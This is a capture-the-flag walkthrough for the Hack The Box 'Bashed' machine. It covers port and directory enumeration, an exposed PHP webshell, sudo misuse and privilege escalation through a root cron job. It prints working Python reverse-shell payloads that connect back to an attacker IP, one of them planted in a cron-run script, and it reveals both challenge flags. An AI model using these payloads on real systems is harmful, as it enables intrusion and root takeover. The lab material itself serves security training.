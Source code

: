 # Bashed

<div align="left"><figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt="" width="75"><figcaption><p>hackthebox.com - © HACKTHEBOX</p></figcaption></figure></div>

🔗 [Bashed](https://www.hackthebox.com/machines/bashed)

### Task 1 - Deploy the machine

🎯 Target IP: `10.129.236.215`

Create a directory on the Desktop with the machine's name, and inside this directory, create another directory to store the materials and outputs needed to run the machine, including the scans made with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.129.236.215 bashed.htb" >> /etc/hosts

mkdir -p htb/bashed.htb
cd htb/bashed.htb
mkdir {nmap,content,exploits,scripts}
# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 bashed.htb
PING bashed.htb (10.129.236.215) 56(84) bytes of data.
64 bytes from bashed.htb (10.129.236.215): icmp_seq=1 ttl=63 time=67.3 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=2 ttl=63 time=64.2 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=3 ttl=63 time=79.4 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target should be a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 - How many open TCP ports are listening on Bashed??

```bash
nmap -p0- -sS -Pn -vvv bashed.htb -oN nmap/tcp_port_scan
```

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sS</td><td>SynScan</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there's 1 open TCP port on the machine: 80

{% hint style="info" %}
1
{% endhint %}

### 2.2 - What is the relative path on the webserver to a folder that contains phpbash.php??

Now, we take more precise scan utilizing -sCV flags to retrieve versioning services and test common scripts.

```bash
nmap -p80 -sS -Pn -n -v -sCV -T4 bashed.htb -oG nmap/port_scan
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
```

#### Port 80

Browsing webserver on port 80 via browser, that contains a web php bash.

<figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

Analyzing source code we don't found nothing of interesting, than we can discover more info about website using whatweb and do directory enumeration using gobuster.

```bash
whatweb bashed.htb
http://bashed.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.215], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

```
gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirb/common.txt
```

<div align="left"><figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure></div>

Very good, we've found interisting web dir such as /dev and /uploads, exploring them we can answer at our question.

<figure><img src="../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/dev
{% endhint %}

### 2.3 - What user is the webserver running as on Bashed?

The /dev directory contains two php webshell, more probably phpbash.min.php is a minimal bash or beta version while phpbash.php is full version.

In both cases, we immediately observe that the user in use is the same.

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
www-data
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located in the arrexel user's home directory.

Navigating into file system is more simple discover users home directories and arrexel user's flag.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

b2e6af7c997eba350b6cf95ad88240cb

</details>

### 3.2 - www-data can run any command as a user without a password. What is that user's username?

Using sudo -l we can see that www-data can run all commands on bashed as a user scriptmanager.

<figure><img src="../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
scriptmanager
{% endhint %}

### 3.3 - What folder in the system root can scriptmanager access that www-data could not?

Going into root dir / we can launch ls -l and see all permissions regarding directories.

<div align="left"><figure><img src="../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/scripts
{% endhint %}

### 3.4 - What is filename of the file that is being run by root every couple minutes?

"Every couple minutes" is an hint to understand possibile route.

But, we decide to give a reverse shell on our attacker machine to optimize our work, to do it we need to make us in listening mode using netcat `nc -lvnp 1339` and execute a python script on web shell.

```python
export RHOST="10.10.14.6";export RPORT=1339;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left"><figure><img src="../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure></div>

Remembering the question's hint and the last task, where only the scriptmanager can access the /scripts folder, we can access it as the scriptmanager user spawning a a bash shell

```bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Trying to use sudo -l commands, the system asks us for a password that we don't know.

Now, we've permissions access to /scripts dir, where we found two files:

<div align="left"><figure><img src="../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure></div>

Additionally, the program `test.py` appears to be scheduled to execute almost every minute, based on the last access time of `test.txt`. From this, we can infer that there may be a cron job owned by root that automatically runs `test.py` every minute. We can confirm this by renaming `test.txt` (e.g., to `test.txt.old`) and observing that a new `test.txt` file is created after a minute or so."

This is useful because we can modify the contents of `test.py` to include reverse shell code, which would then execute with root privileges.

Next, let's create a new file named `test.py` on our Kali box and insert the same reverse shell code we used earlier. We'll then transfer this file to the target 'Bashed' machine.

```python
echo "import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('10.10.14.6',4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(['/bin/sh','-i']);" > test.py
```

{% hint style="info" %}
test.py
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in root's home directory.

Immediately before or at least within two minutes we listen with netcat on the attacker machine, and we obtain a shell with root permissions.

<div align="left"><figure><img src="../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure></div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

40ca417765210f39b12b2d78813ebcfe

</details>
